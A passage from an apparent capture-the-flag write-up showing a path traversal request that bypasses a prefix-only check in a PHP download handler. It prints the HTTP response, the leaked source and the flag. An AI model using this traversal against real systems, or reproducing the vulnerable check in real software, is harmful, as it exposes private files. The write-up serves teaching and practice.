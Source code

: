For now we can only download a handful of files, but we can do a little trick :

```bash
GET /topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```

Voila : 

```php
HTTP/2 200 OK
Date: Sat, 16 Nov 2024 13:49:46 GMT
Content-Type: application/octet-stream
Content-Length: 1819
Server: istio-envoy
X-Powered-By: PHP/8.3.13
Content-Disposition: attachment; filename="topsecret_a9aedc6c39f654e55275ad8e65e316b3.php"
X-Envoy-Upstream-Service-Time: 1

<?php

$flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';

if (isset($_GET['download'])) {
    $file = $_GET['download'];
    if (strpos($file, '/assets/images/') === 0) {
        $filePath = __DIR__ . '/' . $file;
        if (file_exists($filePath)) {
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="' . basename($filePath) . '"');
            header('Content-Length: ' . filesize($filePath));
            readfile($filePath);
            exit();
        } else {
            die('File not found!');
        }
    } else {
        die('File path not allowed!');
    }
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Top Secret Portal</title>
    <link href="https://fonts.googleapis.com/css2?family=Orbitron&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="/assets/css/secret-theme.css">
    <script src="/assets/js/displayImage.js"></script>
</head>
<body>
    <div class="container">
        <h1>Welcome to the Top Secret Government Portal</h1>
        <p>Authorized personnel only.</p>

        <img id="selectedImage" src="/assets/images/topsecret1.png" alt="Selected Image">

        <form method="GET" action="">
            <label for="image">Select Image to Download:</label>
            <select name="download" id="image" onchange="updateImage()">
                <option value="/assets/images/topsecret1.png">Image 1</option>
                <option value="/assets/images/topsecret2.png">Image 2</option>
                <option value="/assets/images/topsecret3.png">Image 3</option>
                <option value="/assets/images/topsecret4.png">Image 4</option>
```